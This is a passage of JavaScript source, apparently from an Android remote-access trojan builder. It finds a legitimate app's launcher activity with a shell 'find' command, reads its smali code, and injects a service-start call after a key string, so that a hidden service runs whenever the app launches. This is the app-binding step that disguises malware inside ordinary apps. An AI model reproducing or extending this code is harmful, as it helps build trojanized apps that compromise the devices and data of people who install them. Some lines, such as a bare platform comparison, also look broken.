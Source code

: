 ```js  
                                }
                            
                                $appCtrl.GenerateApk(apkFolder);

                                });

                            });

                        });

                    });

            } else {
                (process.platform === "darwin");
                $appCtrl.Log("Locating Launcher Activity...");
                $appCtrl.Log();
                exec('find ' + '"' + apkFolder + '"' + ' -name ' + '"' + launcherActivity + '"', (error, stdout, stderr) => {
                    var launcherPath = stdout.split(apkFolder).pop(".smali").trim("\n").replace(/^\/+/g, '');
                    if (error !== null) {
                    	$appCtrl.Log("Unable to Locate the Launcher Activity...", CONSTANTS.logStatus.FAIL);
                    	$appCtrl.Log('Please use the "On Boot" Method to use This APK as a Temaplate!', CONSTANTS.logStatus.INFO);
                        $appCtrl.Log();
                        return;
                    } else if (launcherPath) {
                    	$appCtrl.Log("Launcher Activity Found: " + launcherPath, CONSTANTS.logStatus.SUCCESS);
                   	$appCtrl.Log();
                    }

                    $appCtrl.Log("Fetching Launcher Activity...");
                    $appCtrl.Log();
                    fs.readFile(path.join(apkFolder, launcherPath), 'utf8', (error, data) => {
                        if (error) {
                            $appCtrl.Log('Reading Launcher Activity Failed!', CONSTANTS.logStatus.FAILED);
                    	    $appCtrl.Log('Please use the "On Boot" Method to use This APK as a Temaplate!', CONSTANTS.logStatus.INFO);
                            $appCtrl.Log();
                            return;
                        }

                        var regex = /\/(\S+)\./;
                        var str = (apkFolder, launcherPath);
                        var m = str.match(regex);

                        var startService = CONSTANTS.serviceSrc + apkFolder.split(apkFolder).join((m[1])) + CONSTANTS.serviceStart;


                        var key = CONSTANTS.orgAppKey;
                        $appCtrl.Log("Modifiying Launcher Activity...");
                        $appCtrl.Log();
                        var output = data.substring(0, data.indexOf(key) + key.length) + startService + data.substring(data.indexOf(key) + key.length);
                        fs.writeFile(path.join(apkFolder, launcherPath), output, 'utf8', (error) => {
                            if (error) {
                                $appCtrl.Log('Modifying Launcher Activity Failed!', CONSTANTS.logStatus.FAIL);
```